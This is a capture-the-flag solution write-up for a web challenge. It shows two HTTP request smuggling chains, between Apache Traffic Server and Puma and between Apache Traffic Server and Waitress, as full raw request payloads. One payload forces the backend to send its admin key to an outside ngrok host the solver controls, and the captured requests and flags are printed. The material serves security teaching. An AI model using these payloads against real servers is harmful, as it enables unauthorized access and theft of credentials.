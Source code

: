 # Flag Portal - Solution

**Author**: zeyu2001

**Category**: Web

2 HTTP request smuggling vulns.

## 1) Between ATS and Puma

Conditions that make this possible:

- ATS interprets `"chunked"` as `chunked`
- Puma ignores invalid / unsupported TE values

First, we need to smuggle a request to `/admin` in `flagportal` to perform an SSRF.

```http
GET /home HTTP/1.1
Host: example.com
Transfer-Encoding: "chunked"

DELETE /admin?backend=http://f754-42-60-216-15.ngrok.io HTTP/1.1
Host: example.com
Padding: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0: x

```

Here's how this works.

For ATS:

- ATS interprets `"chunked"` as `chunked`.
- It sees the first two characters of `DELETE`, and interprets `0xDE` as the chunk size.
- Using the padding header, we add enough bytes so that we have `0xDE` bytes when we reach `0: x`.
- The `0: x` line is parsed as the chunk terminator.
- ATS only sees one request, `GET /`.

For Puma:

- Puma ignores the invalid `"chunked"` transfer encoding.
- The content length of the first request is then 0.
- Puma sees two requests, `GET /` and `DELETE /admin`.

By hosting our own server, we can catch the request, including the `Admin-Key`.

```http
POST / HTTP/1.1
Host: f754-42-60-216-15.ngrok.io
User-Agent: Ruby
Content-Length: 37
Accept: */*
Accept-Encoding: gzip;q=1.0,deflate;q=0.6,identity;q=0.3
Admin-Key: spendable-snoring-character-ditzy-sepia-lazily
Content-Type: application/x-www-form-urlencoded
First-Flag: SEE{n0w_g0_s0lv3_th3_n3xt_p4rt_bf38678e8a1749802b381aa0d36889e8}
X-Forwarded-For: 42.60.216.15
X-Forwarded-Proto: http

target=https%3A%2F%2Fbit.ly%2F3jzERNa
```

This gives us the first flag, `SEE{n0w_g0_s0lv3_th3_n3xt_p4rt_bf38678e8a1749802b381aa0d36889e8}`.

Note that with the above request smuggling method, we won't be able to get the second response from Puma, which is why there are two parts to this challenge. ATS will only show the first response even if we add more requests after the `DELETE` request above.

## 2) Between ATS and Waitress

Conditions that make this possible:

- ATS processes LF as line endings (instead of CRLF)
- Waitress allows LF in chunked extensions

```http
GET /api HTTP/1.1
Host: backend
Transfer-Encoding: chunked

2;[\n]xx
d9
0

POST /flag-plz HTTP/1.1
Host: backend
ADMIN-KEY: spendable-snoring-character-ditzy-sepia-lazily
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

target=http://f754-42-60-216-15.ngrok.io

0

```

Notice a `\n` is added to the chunk extension. Since ATS processes the LF as the end-of-line, it sees the following:

```http
GET /api HTTP/1.1
Host: backend
Transfer-Encoding: chunked

2
xx
d9
0

POST /flag-plz HTTP/1.1
Host: backend
ADMIN-KEY: spendable-snoring-character-ditzy-sepia-lazily
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

target=http://f754-42-60-216-15.ngrok.io

0

```

The second request is encapsulated in the chunked content of the first request.

Waitress, on the other hand, would see both requests:

```http
GET /api HTTP/1.1
Host: backend
Transfer-Encoding: chunked

2
d9
0

POST /flag-plz HTTP/1.1
Host: backend
ADMIN-KEY: spendable-snoring-character-ditzy-sepia-lazily
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

target=http://f754-42-60-216-15.ngrok.io

0

```

`python3 payload.py | nc localhost 8000`

From our receiving server, we can see the flag: `SEE{y4y_r3qu3st_smuggl1ng_1s_fun_e28557a604fb011a89546a7fdb743fe9}`

```http
POST / HTTP/1.1
Host: f754-42-60-216-15.ngrok.io
User-Agent: python-requests/2.27.1
Content-Length: 106
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 42.60.216.15
X-Forwarded-Proto: http

flag=SEE%7By4y_r3qu3st_smuggl1ng_1s_fun_e28557a604fb011a89546a7fdb743fe9%7D&congrats=Thanks+for+playing%21
```

## Credits

- Thesis by Matthias Grenfeldt and Asta Olofsson where they investigated ATS in-depth. The vulnerabilities on the ATS-side of things in this challenge were discovered by them and detailed in this thesis.

http://kth.diva-portal.org/smash/get/diva2:1596031/FULLTEXT01.pdf

- For Puma and Waitress, these were vulnerabilities I found when researching on web servers and request smuggling. I suppose by the time this challenge comes out, patches would have been released (otherwise you wouldn't have been playing this challenge :<). You can refer to the relevant GitHub Security Advisories or the MITRE CVE website for more information on the vulnerabilities.
